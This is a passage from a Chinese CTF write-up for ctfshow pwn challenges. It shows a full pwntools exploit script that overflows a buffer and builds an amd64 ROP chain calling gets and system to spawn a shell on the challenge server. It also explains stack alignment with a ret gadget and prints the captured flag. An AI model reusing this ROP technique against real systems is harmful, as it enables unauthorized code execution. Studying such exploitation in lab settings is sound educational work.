 





最后exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28112

p = remote(ip,port)

getp_func = 0x400530
buf2_addr = 0x602080
sysp_addr = 0x400520
rdix_addr = 0x4007f3
retx_addr = 0x4004fe

payload = b'a'* (0x0A + 0x08) 
payload += p64(rdix_addr) + p64(buf2_addr)
payload += p64(retx_addr)  + p64(getp_func) 
payload += p64(rdix_addr) + p64(buf2_addr) 
payload += p64(retx_addr) + p64(sysp_addr) 
# payload += b'/bin/sh' 

p.recvuntil(b'get system parameter!')
p.sendline(payload)
p.sendline("/bin/sh")

p.interactive()
```

注意压栈出栈的方式变化了，amd64需要rdi和ret来进行控制，为什么呢，因为ret可以调整栈上的对齐来保证后续地址正确对齐，养成习惯，加ret





拿到flag

```
ctfshow{0bdf5eed-fda7-4686-b012-aaff538c56f4}
```



## ==45. pwn45（32位ret2libc）==

32位 无 system 无 "/bin/sh"

![image-20241101203145167](../_media/image-20241101203145167.png)
